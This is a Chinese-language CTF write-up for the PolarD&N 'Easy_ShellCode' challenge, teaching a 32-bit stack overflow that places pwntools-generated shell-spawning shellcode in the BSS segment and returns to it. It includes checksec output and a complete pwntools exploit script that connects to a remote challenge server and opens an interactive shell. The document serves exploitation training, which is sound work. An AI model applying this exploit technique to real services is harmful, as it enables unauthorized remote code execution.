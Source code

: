 ```yaml
---
title: 基础栈溢出ret2shellcode 写入BSS段
layout: doc
---
```

# {{$frontmatter.title}}
[[toc]]

## pwntools生成shellcode
```py
from pwn import *
context(os="linux", arch='amd64') # 需要设置，否则64位报错
# 32 bit
shellcode = shellcraft.sh()
shellcode_asm = asm(shellcode)

# 64 bit
shellcode = shellcraft.amd64.sh()
shellcode_asm = asm(shellcode)
```

## 基础检查
> 本例题是PolarD&N的基础入门pwn题 Easy_ShellCode
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ file Easy_ShellCode 
Easy_ShellCode: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=8a397c2f97ee491b559ba464305c76619d631224, not stripped
                                                                                          
┌──(kali㉿kali)-[~/win/Downloads]
└─$ checksec --file=Easy_ShellCode 
[*] '/home/kali/win/Downloads/Easy_ShellCode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

## IDA反编译源码
![alt text](/images/image-9.png)

![alt text](/images/image-10.png)

发现str是在bss段 可以写入shellcode
read函数 buf 存在缓冲区溢出
获取str地址

## 编写exp
```py
from pwn import *
context(os="linux", arch='i386')
# 32 bit
shellcode = shellcraft.sh()
shellcode_asm = asm(shellcode)

# io = process("./Easy_ShellCode")
io = remote("120.46.59.242",2053)
io.sendline(shellcode_asm)

padding = 0x68 + 4 # 32 bit
shellcode_addr = 0x0804A080

io.sendline(b'a'*padding + p32(shellcode_addr))
io.interactive()
```
> 本地打不通，远程可以，是很正常的~！